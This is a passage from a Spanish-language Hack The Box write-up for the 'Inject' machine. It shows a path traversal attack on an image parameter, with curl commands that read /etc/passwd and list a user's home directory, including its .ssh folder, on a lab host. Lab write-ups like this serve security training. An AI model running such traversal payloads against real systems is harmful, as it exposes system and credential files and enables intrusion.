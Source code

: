 ![](/assets/images/htb-writeup-inject/web7.png)

## Local File Inclusion (LFI)

Pues bueno la `url` ya es interesante ya que se esta empleando un parámetro `img` vamos a probar haciendo un **LFI** para ver si podemos ver el `/etc/passwd`

Si de primeras apuntamos al archivo nos da error 

![](/assets/images/htb-writeup-inject/web8.png)

A si que vamos a hacer un **directory path traversal** para ir varios directorios hacia atrás 

Para mas cómodo podemos hacerlo desde consola

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd" | grep sh
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

Pues bueno funciona y como tal tenemos el nombre de 2 usuarios **frank** y **phil** 

Y bueno tenemos capacidad de **directory listing** y podemos ver lo que hay en el directorio de **phil**

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/phil"
.ansible
.bash_history
.bashrc
.cache
.local
.profile
.ssh
.viminfo
user.txt
```
